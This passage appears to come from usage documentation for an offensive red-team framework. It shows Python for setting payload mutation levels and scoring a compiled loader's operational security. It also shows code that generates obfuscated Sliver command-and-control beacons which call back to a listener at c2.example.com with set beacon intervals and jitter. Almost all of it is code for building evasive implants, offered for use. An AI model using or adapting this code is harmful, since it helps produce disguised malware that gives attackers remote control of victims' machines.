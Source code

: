 **Mutation Levels:**
- `low` - 10-20% different
- `medium` - 30-50% different
- `high` - 60-80% different

### OPSEC Analysis

```python
from server.opsec_analyzer import OPSECAnalyzer

# Initialize analyzer
analyzer = OPSECAnalyzer()

# Analyze binary
result = analyzer.analyze(binary_path='compiled/loader.exe')

print(f"Score: {result['score']}/10")
for issue in result['issues']:
    print(f"- [{issue['severity']}] {issue['description']}")
```

### C2 Adapters

#### Sliver

```python
from c2_adapters import generate_sliver_beacon
from c2_adapters.config import SliverConfig, Protocol, Architecture

# Method 1: Simple
result = generate_sliver_beacon(
    listener_host="c2.example.com",
    listener_port=443,
    protocol="https",
    techniques=["NOCTIS-T124"],
    obfuscate=True
)

# Method 2: With config object
config = SliverConfig(
    listener_host="c2.example.com",
    listener_port=443,
    protocol=Protocol.HTTPS,
    architecture=Architecture.X64,
    beacon_interval=60,
    beacon_jitter=30
)

from c2_adapters.sliver_adapter import SliverAdapter
adapter = SliverAdapter(config)
result = adapter.generate_beacon(
    techniques=["NOCTIS-T124"],
    obfuscate=True
)

if result.success:
    print(f"Beacon: {result.beacon_path}")
    print(f"OPSEC: {result.opsec_score}/10")
```
